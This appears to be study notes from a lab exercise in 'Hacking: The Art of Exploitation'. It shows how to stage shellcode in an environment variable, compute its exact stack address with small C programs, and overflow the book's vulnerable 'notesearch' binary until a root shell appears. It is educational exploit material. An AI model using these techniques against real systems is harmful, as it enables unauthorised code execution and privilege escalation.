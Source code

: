 Let’s first put the shellcode into a file, for example `shellcode.bin`
Then let’s do this:
```bash
export SHELLCODE=$(perl -e 'print "\x90"x200')$(cat shellcode.bin)
```

And like this we have all stages of our exploit basically.

and just like that, our payload is in an environment variable, with a 200 bytes nope sled.

Since the env variables are pushed onto the stack, we can also jump there, and execute our shellcode from that place.

# Without a nopsled
We somehow have to get the location of the env variable in memory. How do we do this? Let’s write a simple c program.

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, int *argv[]) {
    printf("%s is at %p\n", argv[1], getenv(argv[1]));
    return 0;
}
```

This program can find about where the address it but not exactly. What can we do instead?

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// argv[1] is the program to exploit and argv[2] is the env
int main(int argc, int *argv[]) {
    char *env = getenv(argv[2]);
    int self_len = strlen(argv[0]);
    int other_len = strlen(argv[1]);
    env += (self_len - other_len)*2;
    printf("%s will be at %p\n", argv[2], env );
}
```

This program finds the exact position of the address we are looking for. how does it do it? Well it’s simple actually, the env variables are gonna be placed at the exact same place in memory at every run.

```ad-note
The place of them also depends on the length of the program name.
```

Using this information we could write this program and use it to exploit a buffer overflow like so:

```bash
❯ ./get_exact_env.o ./notesearch seedless 
seedless will be at 0xffffdf6a
~/Documents/workspace/book-docs/hacking-the-art-of-exploitation/code    11:52:47
❯ ./notesearch $(perl -e 'print "\x6a\xdf\xff\xff"x60')        
[DEBUG] found a 2 byte note for user id 1000
[DEBUG] found a 2 byte note for user id 1000
[DEBUG] found a 12 byte note for user id 1000
-------[ end of note data ]-------
sh-5.1# exit
exit
```
